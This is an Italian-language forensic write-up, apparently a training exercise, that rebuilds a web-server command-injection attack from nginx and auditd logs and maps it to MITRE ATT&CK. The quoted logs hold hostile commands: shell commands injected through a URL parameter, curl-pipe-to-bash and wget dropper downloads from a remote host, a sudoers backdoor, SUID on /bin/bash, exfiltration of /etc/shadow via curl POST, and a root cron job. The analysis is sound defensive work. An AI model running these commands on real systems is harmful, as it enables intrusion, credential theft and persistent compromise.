

# 
L’obiettivo di questo esercizio è identificare e ricostruire un tentativo di Remote Code Execution (RCE) sul server web, analizzando i log e correlando gli eventi.
In particolare, il focus è sull’individuazione dell’iniezione di comandi tramite parametri URL e sulla conferma della loro esecuzione a livello di sistema. 

(Ref-MITRE ATT&CK: T1059.004 : Command and Scripting Interpreter)




Il mio primo passo è stato cercare nei log di nginx durante il tempo indicato dall’allerta. Ho filtrato le richieste GET sospette che contenevano caratteri di shell (;, |, ecc.). La prima voce rilevante era:
```
2025-08-22 06:15:09 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:15:09 +0000] "GET /product?id=5;uname+-a HTTP/1.1" 200 432 "-" "Mozilla/5.0"
```

Il punto e virgola e il comando uname -a indicano un tentativo di iniezione di comandi. Questo tipo di comando viene spesso usato per testare se l'esecuzione è possibile. Dovevo confermare se era stato eseguito davvero.
Sono passato ai log di auditd e ho filtrato per voci EXECVE intorno allo stesso orario. Un secondo dopo, ho trovato:
```
2025-08-22 06:15:10 WEB01 auditd[1172]: EXECVE cmd=uname args=["uname","-a"] cwd="/var/www/app" pid=2435 uid=33
```

Questo conferma che il comando è stato eseguito, sotto uid=33, che corrisponde di solito all’utente www-data. Quindi il server era vulnerabile e l’attaccante aveva ottenuto esecuzione di comandi.
Per vedere se continuava, ho cercato altre richieste sospette dallo stesso IP subito dopo. Ho trovato questa:
```
2025-08-22 06:15:22 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:15:22 +0000] "GET /product?id=5;cat+/etc/passwd HTTP/1.1" 200 1021 "-" "Mozilla/5.0"
```

Ho verificato nei log di auditd per confermare l'esecuzione:
```
2025-08-22 06:15:23 WEB01 auditd[1172]: EXECVE cmd=cat args=["cat","/etc/passwd"] cwd="/var/www/app" pid=2437 uid=33
```

A questo punto avevo un pattern chiaro:

•	L’attaccante ha iniettato comandi shell usando un parametro vulnerabile.

•	Ogni richiesta era seguita da una voce EXECVE che conferma l’esecuzione.

•	Tutti i comandi erano eseguiti con lo stesso utente non-root.

Avevo quindi confermato l’accesso iniziale tramite iniezione di comandi e visto che l’attaccante stava facendo ricognizione. Non c’erano ancora segni di escalation di privilegi, ma il mio prossimo passo era cercare eventuali download di file o cambiamenti nei permessi.

# Esecuzioni successive e primi segnali di escalation
Dopo aver confermato che l’attaccante poteva eseguire comandi, ho cercato nei log se aveva provato a scaricare o eseguire altri script. Ho filtrato nei log nginx le richieste con comandi curl o wget, perché spesso sono usati per scaricare payload.

```
2025-08-22 06:16:18 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:16:18 +0000] "GET /product?id=5;curl+http://198.51.100.77/shell.sh|bash HTTP/1.1" 200 231 "-" "Mozilla/5.0"
```
Il comando usa curl per scaricare uno script remoto e lo esegue direttamente con bash. Per verificare, ho controllato i log di auditd nello stesso momento:
```
2025-08-22 06:16:19 WEB01 auditd[1172]: EXECVE cmd=curl args=["curl","http://198.51.100.77/shell.sh"] cwd="/var/www/app" pid=2440 uid=33
```

Il comando è stato eseguito come uid=33, quindi lo script remoto è stato scaricato ed eseguito come utente www-data. Ho continuato a cercare per vedere se c’erano altri download. Poco dopo, ho trovato questa seconda richiesta:
```
2025-08-22 06:18:44 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:18:44 +0000] "GET /product?id=5;wget+http://198.51.100.77/dropper.sh+-O+/tmp/x.sh;sh+/tmp/x.sh HTTP/1.1" 200 452 "-" "Mozilla/5.0"
```

Qui viene scaricato un secondo script (dropper.sh) e salvato in /tmp/x.sh, poi eseguito subito con sh. Nei log auditd ì:
```
2025-08-22 06:18:45 WEB01 auditd[1172]: EXECVE cmd=wget args=["wget","http://198.51.100.77/dropper.sh","-O","/tmp/x.sh"] cwd="/var/www/app" pid=2444 uid=33
```
```
2025-08-22 06:18:45 WEB01 auditd[1172]: EXECVE cmd=sh args=["sh","/tmp/x.sh"] cwd="/var/www/app" pid=2445 uid=33
```
Queste righe confermano che lo script dropper è stato salvato nella cartella temporanea ed eseguito. A questo punto ho iniziato a tracciare tutto ciò che accadeva dopo sh /tmp/x.sh, usando il PID 2445 come riferimento.
Ho trovato altri comandi eseguiti da quello script:
```
2025-08-22 06:19:18 WEB01 bash[2453]: wget: saved file "/tmp/x.sh" size=214 bytes
2025-08-22 06:19:31 WEB01 auditd[1172]: EXECVE cmd=chmod args=["chmod","+x","/tmp/x.sh"] cwd="/var/www/app" pid=2452 uid=33
2025-08-22 06:19:36 WEB01 auditd[1172]: EXECVE cmd=/tmp/x.sh args=["/tmp/x.sh"] cwd="/var/www/app" pid=2453 uid=33
2025-08-22 06:19:39 WEB01 bash[2453]: useradd attacker -m -s /bin/bash
2025-08-22 06:19:44 WEB01 bash[2453]: echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

Ho notato che lo script ha creato un utente chiamato attacker e ha cercato di modificarne i privilegi. Il file /etc/sudoers richiede privilegi root, quindi a questo punto ho iniziato a sospettare che l’attaccante stesse tentando l’escalation.
Tuttavia, fino a questo momento tutti i comandi risultavano ancora eseguiti come uid=33. Non c’era ancora prova concreta che l’attaccante avesse ottenuto accesso root, ma i tentativi erano chiari.


# Esfiltrazione e persistenza finale
Dopo aver visto che lo script cercava di modificare /etc/sudoers, ho deciso di concentrarmi sui log auditd per trovare segnali di privilege escalation riuscita. Ho continuato a filtrare gli EXECVE dopo l’esecuzione di /tmp/x.sh.
Il primo evento chiave è stato questo:
`
2025-08-22 06:19:50 WEB01 auditd[1172]: EXECVE cmd=chmod args=["chmod","+s","/bin/bash"] cwd="/var/www/app" pid=2455 uid=0 auid=0
`

Qui ho finalmente visto un comando eseguito da uid=0 (root). L’attaccante ha impostato il bit SUID su /bin/bash, creando un backdoor permanente con privilegi root. Questo è un chiaro segnale di escalation completata.
Ho cercato cosa è successo subito dopo ....
```
2025-08-22 06:20:11 WEB01 auditd[1172]: EXECVE cmd=curl args=["curl","-X","POST","-d","$(cat /etc/shadow)","http://198.51.100.77/exfil"] cwd="/var/www/app" pid=2456 uid=0 auid=0
```

L’attaccante ha usato curl per inviare il contenuto di /etc/shadow verso un server remoto. Questo file contiene le hash delle password e può essere letto solo da root. Il fatto che il comando è stato eseguito da uid=0 conferma che i privilegi root erano stati ottenuti con successo.
Infine, ho voluto vedere se era stata impostata qualche forma di persistenza. Ho controllato le modifiche nei file di sistema e ...
```
2025-08-22 06:20:23 WEB01 bash[2453]: cron job created: "* * * * * root /tmp/x.sh" in /etc/crontab
```

Questa voce indica che è stato aggiunto un job cron per eseguire /tmp/x.sh ogni minuto come utente root. È un metodo semplice ma efficace per mantenere accesso continuo al sistema anche dopo un riavvio.

A questo punto ho l'intero quadro dell'attacco:

•	Accesso iniziale tramite iniezione di comandi

•	Download ed esecuzione di payload remoti

•	Escalation dei privilegi tramite chmod +s /bin/bash

•	Esfiltrazione del file /etc/shadow

•	Persistenza tramite cron


